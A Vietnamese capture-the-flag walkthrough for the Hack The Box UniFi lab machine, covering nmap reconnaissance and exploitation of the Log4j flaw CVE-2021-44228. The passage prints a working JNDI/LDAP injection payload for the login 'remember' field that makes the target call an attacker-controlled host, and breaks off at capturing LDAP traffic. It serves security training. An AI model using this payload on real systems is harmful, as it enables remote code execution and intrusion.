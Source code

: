 > Target sẽ giúp ta khám phá về lỗ hổng Log4j trong một hệ thống giám sát thiết bị mạng Unify. Chúng ta cũng sẽ được thay đổi thông tin admin nhằm leo thang quyền lực.
### 1. Thu thập thông tin target
###### IP: 10.129.5.75
##### + Kiểm tra kết nối `ping 10.129.5.75`
##### + Kiểm tra cổng và dịch vụ: `nmap -sC -sV -v 10.129.5.75`
###### -v: nói với nmap in thêm thông tin khi quét
##### => 22/tcp : ssh
##### => 6789/tcp : ibm-db2-admin?
##### => 8080/tcp: http-proxy
##### => 8443/tcp: ssl/nagios-nsca - http-title: Unifi Network

### 2. Tìm kiếm thông tin target:
##### + Truy cập địa chỉ 10.129.5.75:8080 sẽ được chuyển hướng sang cổng 8443, được trang web login.
##### + Ngay dưới phần login có phần version của Unifi: `6.4.54`
##### + Kiểm tra version trên mạng với từ khóa `UniFy 6.4.54 exploit` sẽ ra được một [bài báo online](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) nói về lỗ hổng [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) trong ứng dụng này.
##### + Nói thêm một chút về [Log4j](https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation), đây là một lỗ hổng có thể bị khai thác bằng cách đẩy các lệnh hệ điều hành (OS Command Injection), là một lỗ hổng trong an ninh web cho phép attacker triển khai lệnh thực thi hệ điều hành trong server chạy ứng dụng đó và toàn quyền điều khiển ứng dụng và data của nó.

### 3. Khai thác lỗ hổng:
##### + Để kiểm tra và khai thác lỗ hổng, sử dụng BurpSuite để kiểm tra và exploit lỗ hổng đối với trang login:
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/0bdf41e6-37c5-499c-85a8-10a6300070fc)
##### + Đầu tiên, thay đổi payload trên trường `remember`: 
##### Có thể đẩy Request trong ảnh vào phần *Repeater* của BurpSuite để kiểm tra nhiều lần:
` “remember” : “${jndi:ldap://10.10.14.26/whatever}” `
###### JNDI(Java Naming and Directory Interface), bằng cách gọi cho API này, ứng dụng	xác định được vị trí của tài nguyên và các đối tượng khác của chương trình.
###### LDAP(Lightweight Directory Access Protocol), một protocol cho ứng dụng tiêu chuẩn 	sử dụng để truy cập và bảo trì các thư mục riêng lẻ qua Internet hoặc Network. Port 	mặc định là port 389.
###### Vì data của POST được gửi đi như JSON và vì payload thường có {} nên để tránh việc nó bị gửi như JSON thì đóng nó bằng “” và sẽ được parse như string.
##### + Foward Request, nhận được thông báo trong phần *Response* rằng payload không hợp lệ, nhưng payload đang được thực thi.
##### + Chạy tcpdump trên port 389 (port mặc định của LDAP) để xem network traffic của LDAP